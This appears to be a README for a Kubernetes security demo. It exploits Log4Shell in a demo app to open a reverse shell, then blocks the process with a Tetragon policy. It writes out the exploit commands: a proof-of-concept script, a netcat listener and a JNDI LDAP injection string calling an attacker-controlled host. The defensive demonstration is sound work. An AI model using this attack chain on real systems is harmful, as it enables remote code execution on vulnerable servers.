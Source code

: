 # Tetragon Demo

Let's get the attacker machine ready (find more details [here](https://github.com/nmeisenzahl/hijack-kubernetes)):

```bash
cd log4j-shell-poc

sudo python3 poc.py --userip demo01-vm.westeurope.cloudapp.azure.com --webport 80 --lport 443 &
sudo nc -lvnp 443

```

Now inject the jndi string into the demo app:

`${jndi:ldap://demo01-vm.westeurope.cloudapp.azure.com:1389/a}`

You should now have an open reverse shell into the pod.

Next, implement a policy to deny such processes:

```bash
kubectl apply -f ./src/block-process-policy.yaml
```

```bash
kubectl logs -n kube-system -l app.kubernetes.io/name=tetragon -c export-stdout | tetra getevents -o compact
```

You now shouldn't be able to access the pod anymore.
